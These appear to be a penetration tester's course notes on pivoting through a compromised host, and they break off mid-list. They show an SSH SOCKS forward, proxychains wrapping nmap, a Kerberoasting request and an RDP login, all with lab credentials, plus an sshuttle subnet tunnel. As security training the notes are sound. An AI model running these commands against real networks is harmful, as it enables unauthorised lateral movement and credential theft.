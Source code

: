 So lets say we've compromised a machine, and that machine allows you access to 2 network interfaces, and those interfaces share a new network interface that was unavailable to us.

So, instead of downloading tools like nmap on the compromised machine to access the other networks, we can set up a proxy and pivot through that to the other network

We can do pivoting with different tools. 

First tool we can use is called ProxyChains

To use it, first lets go to the ProxyChains config file:\

```bash
cat /etc/proxychains4.conf
```

![[Pasted image 20240829232431.png]]

We would be binding to this port. It will be different for different machines(im using the one TCM is showing)

We can then run the following command:

```bash
ssh -f -N -D 9050 -i pivot root@<ip_we_have_access_to>
```

-i is identity connection, -f basically backgrounds the ssh. -N basically means we do not want to execute remote commands. This is only for forwarding ports. -D is basically where to bind the port.

Then we can use proxychains to run different commands from our attacking machine without actually using the compromised machine.

Some Examples:

```bash
proxychains nmap -p88 10.10.10.225
```

```bash
proxychains GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip 10.10.10.225 -request
```

Remember [[Kerberoasting]]??

```bash
proxychains xfreerdp /u:Administrator /p:'Hacker321!' /v:10.10.10.225
```

The other tool you can use is sshuttle.

This tool does not require you to set a proxy beforehand, it by default sets a proxy with this command:

```bash
sshuttle -r root@10.10.155.5 10.10.10.0/24 --ssh-cmd "ssh -i pivot"
```

And now we are connected with the network. The cool part about this is we dont have to type something like proxychains in front on every command. We can run anything as is as long as the above command is still running.

Another tool we can utilize is chizel.

